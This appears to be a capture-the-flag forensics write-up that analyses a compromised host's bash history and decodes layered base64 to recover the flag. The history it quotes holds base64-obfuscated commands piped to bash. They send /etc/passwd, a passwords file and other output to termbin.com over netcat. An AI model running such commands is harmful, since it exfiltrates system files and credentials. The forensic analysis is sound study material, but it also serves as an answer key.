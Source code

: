 # Bash history

## Task

We suspect that one of BB's internal hosts has been compromised. I copied its
~./bash_history file. Maybe, there are some suspicious commands?

File: bash_history

Tags: forensics

## Solution

There is a lot of noise in the file, we can filter that out:

```bash  
$ grep -Ev '^(totp-gen|ssh petr@praha-00[0-9])' bash_history  
```

We notice some `echo BASE64 | base64 -d | bash` which look very suspicious.

```bash  
echo YnJubzAwMQ== | base64 -d  
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash  
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDk5OTk= | base64 -d | bash  
echo cm0gcHJvY2Vzc2Vz | base64 -d | bash  
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash  
echo xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==  
echo ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU  
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gOTk5OQ== | base64 -d | bash  
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash  
```

There are two echos that don't base64-decode the string. To be on the safe
side of not accidentally copy-pasting the whole line and executing random code
we use python:

```bash  
$ python -c 'from base64 import b64decode as decode;
print(decode("ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU"))'  
$ python -c 'from base64 import b64decode as decode;
print(decode("xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ=="))'  
```

First one throws an exception due to incorrect padding: `binascii.Error:
Incorrect padding`. Second one is just binary and unusable.

But wait! What if we combine those two?

```bash  
$ python -c 'from base64 import b64decode as decode;
print(decode("ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNUxYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ=="))'  
b'echo c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9'  
```

This looks like another round of good old base64.

```bash  
$ python -c 'from base64 import b64decode as decode;
print(decode("c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9"))'  
b'syskronCTF{tHey-st0le-all-Data!!}'  
```